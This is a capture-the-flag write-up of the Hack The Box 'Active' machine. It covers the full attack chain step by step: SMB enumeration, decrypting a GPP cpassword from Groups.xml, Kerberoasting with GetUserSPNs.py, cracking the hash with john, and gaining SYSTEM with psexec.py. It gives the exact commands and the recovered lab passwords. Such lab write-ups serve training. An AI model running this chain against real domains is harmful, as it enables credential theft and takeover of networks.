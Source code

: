 ![Active_call_Card](https://user-images.githubusercontent.com/110210595/187805520-c29bf5fc-ce6e-484b-a14b-33bd87e78c78.png)

# nmap Scan 
Started off with a nmap. `nmap -Pn -T5 -sV -sC -A -p- -oN active_nmap.txt 10.10.10.100`<br>
Here is the results:

![nmap_scan](https://user-images.githubusercontent.com/110210595/187805488-8fc95761-8751-42fe-a1cf-1533ec9efcd6.png)

# smbmap
We see that smb is open.<br>
I run `smbmap -H 10.10.10.100`<br>

![smbmap_results](https://user-images.githubusercontent.com/110210595/187825021-0c32621b-4d50-41f8-ab62-2bc20b94d9cd.PNG)

We notice the domain name is active.htb. This is great because we'll need this for the kerberos attack. We still need credentials.<br>
Only share we have access to is <em><strong>Replication</em></strong> and its only <em><strong>READ</em></strong> acces.<br>

# smbclient
I use `smbclient \\\\10.10.10.100\\Replication`<br>
I log in without a password and just press `ENTER` to hope anonymous log in is enabled.<br>

![smbclient_Replication_results](https://user-images.githubusercontent.com/110210595/187825380-c02c7cea-bf2e-496c-b255-b63c1b97e355.PNG)

We see <em><strong>ctive.htb</em></strong> again in the list and scour this entire directory. Lot's of directories that are empty, countless `cd ..` and cd directories until we ended up finding an interesting file.<br>

![Groups_xml_finding](https://user-images.githubusercontent.com/110210595/187825500-fd5a0269-be38-40d4-b360-8418a8294e77.PNG)

We find a <em><strong>Groups.xml</em></strong> file.<br>
Used `get Groups.xml`<br>
`cat Groups.xml` didn't work hehe.<br>

![Groups_xml_results](https://user-images.githubusercontent.com/110210595/187825600-fece54cb-5614-46d0-afd7-846d569fc7ff.PNG)


We could see<br>
<em><strong>cpassword</em></strong> = "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
<em><strong>userName</em></strong> = active.htb\SVC_TGS<br>
Looks like we definitely found some credentials. But I'm not sure what format that cpassword is. I go to https://book.hacktricks.xyz/welcome/readme and do some research. Looks like cpassword is used in a Groups.xml file which is what we found. Didn't see much else so I used the same site https://book.hacktricks.xyz/welcome/readme but this time searched for Groups.xml file and we find much more info on it. Looks to be a cached GPP Password. 
https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation?q=Groups.xml#cached-gpp-pasword<br>


I use `gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ`<br>

![gpp_decrypt_results](https://user-images.githubusercontent.com/110210595/187825800-edb19a2c-1798-41a7-9866-1c7489bd0fc3.PNG)

The password is <em><strong>GPPstillStandingStrong2k18</em></strong><br>

Now we have -<br> 
UserName = <em><strong>active.htb\SVC_TGS</em></strong><br>
Password = <em><strong>GPPstillStandingStrong2k18</em></strong><br>

# Backtrack - smbclient Users
I remember there were other Users in the smbmap and saw <em><strong>Users</em></strong>. I went back to https://book.hacktricks.xyz/welcome/readme and typed in smbclient users and found a "List shared folders" sections. You can log in to the smbclient using a user parameter if you know the password. Which we do.<br>
That section was actually only to list the shared files. Not connect. Scroll down a bit to Connect/List a shared folder. You'll see this is how to connect. I left the password out because I kept getting errors with it.<br>

![smbclient_Users_errors](https://user-images.githubusercontent.com/110210595/187826348-922411ac-76f4-4b5a-a3e4-53b9c19f6c99.PNG)

I used `smbclient -U SVC_TGS \\\\10.10.10.100\\Users`<br>

![smbclient_Users_SVC_TGS_results](https://user-images.githubusercontent.com/110210595/187826416-57f0c5b8-729a-4d77-a917-02afde46da56.PNG)

We see the <em><strong>SVC_TGS</em></strong> directory and `cd SVC_TGS` and `cd Desktop`<br> 
We see the <em><strong>user.txt</em></strong> file.<br>

![user_txt_found](https://user-images.githubusercontent.com/110210595/187826827-eeeb52cf-12c8-4d15-9772-234b136433e7.PNG)

I use a `get user.txt`
`cat user.txt`

![user txt_results](https://user-images.githubusercontent.com/110210595/187826950-74ff1bbd-0926-492d-bf51-f0be10920c75.PNG)

![COWABUNGA](https://user-images.githubusercontent.com/110210595/187826983-ec11c879-f2d1-40b5-bcd8-740f2f5e7239.png)

We got the <em><strong>user.txt</em></strong> flag.<br>

Since I did an `exit` to cat out the <em><strong>user.txt</em></strong> flag we have to log back in. But there is nothing here. I want to check out that kerberos now since we know we could log in svc_tgs.<br>

I go back to https://book.hacktricks.xyz/network-services-pentesting/pentesting-kerberos-88#hacktricks-automatic-commands searching through port 88 and see that it's an authentication protocol with a secret password. Part of the <em><strong>Active Directory</em></strong> attacks.

I see <em><strong>Entry_4</em></strong> with Creds option. Since we do have the username and password.<br>
I use `GetUserSPNs.py -request -dc-ip {IP} active.htb/svc_tgs` I get an error :/ probably because the script isn't in the direct path.<br>
I use `locate GetUserSPNs.py` find the file and renter the syntax.<br>
`/usr/share/doc/python3-impacket/examples/GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/svc_tgs` <br>

![GetUserSPNs py_results](https://user-images.githubusercontent.com/110210595/187827380-36722399-7107-4d5a-8a90-d08a9cfba1a5.PNG)

We get the Administrator kerberos ticket!<br>
I copied the out put and put it into a text file called <em><strong>kerby.txt</em></strong><br>
I used `john kerby.txt --wordlist=/usr/share/wordlists/rockyou.txt`<br>
We cracked it.<br>

![kerby_results](https://user-images.githubusercontent.com/110210595/187827540-1bba8868-cec8-4e1a-bdf0-f50457dafb92.PNG)

The password to the Administrator account is Ticketmaster1968 <br>

![Mikey_being_a_savage](https://user-images.githubusercontent.com/110210595/187827646-fbdfbbae-715a-49ca-8417-18d524596a2b.png)

At this point I use <em><strong>psexec.py</em></strong> this is a priviledge escalation tool to use once you have credentials. Also can be used for commands in a windows machine for admins. You can find it here https://github.com/SecureAuthCorp/impacket and find out more about it here https://www.sans.org/blog/psexec-python-rocks/ Which we do have now.<br>

I use `/usr/share/doc/python3-impacket/examples/psexec.py Administrator:Ticketmaster1968@10.10.10.100`<br>
And it's a success!<br>

![psexec py_admin](https://user-images.githubusercontent.com/110210595/187827819-303b6624-c4c9-4530-8f7f-1ca22a09a46a.PNG)

We are <em><strong>nt authority\system</em></strong> which is <em><strong>equivalent</em></strong> to root on linux.<br>

I looked around and found the C:\Users\Administrator\Desktop used `dir` and we see the <em><strong>root.txt</em></strong> file.<br>

![root txt_results](https://user-images.githubusercontent.com/110210595/187827976-360b5df5-3b71-4a71-b0cb-5c47b1c3514b.PNG)


https://user-images.githubusercontent.com/110210595/187828063-21c9988b-dae8-400e-93f9-a41268c0f549.MOV


Take a break and go throw some ninja stars or something :)

